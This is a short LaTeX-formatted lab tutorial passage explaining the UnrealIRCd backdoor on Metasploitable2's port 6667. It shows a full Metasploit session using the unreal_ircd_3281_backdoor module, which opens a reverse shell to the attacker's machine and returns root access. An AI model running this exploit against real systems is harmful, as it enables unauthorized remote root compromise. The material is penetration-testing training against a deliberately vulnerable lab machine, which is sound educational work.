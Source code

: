 \documentclass[11pt,a4paper]{article}
\begin{document}
\paragraph{Exploit IRC}\label{exploit-irc}

On port 6667, Metasploitable2 runs the UnreaIRCD IRC daemon. This
version contains a backdoor that went unnoticed for months - triggered
by sending the letters ``AB'' following by a system command to the
server on any listening port. Metasploit has a module to exploit this in
order to gain an interactive shell, as shown below.

\begin{verbatim}
msfconsole
 
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf  exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131
msf  exploit(unreal_ircd_3281_backdoor) > exploit
 
[*] Started reverse double handler
[*] Connected to 192.168.99.131:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8bMUYsfmGvOLHBxe;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "8bMUYsfmGvOLHBxe\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:60257) at 2012-05-31 21:53:59 -0700


id
uid=0(root) gid=0(root)
\end{verbatim}
\end{document}
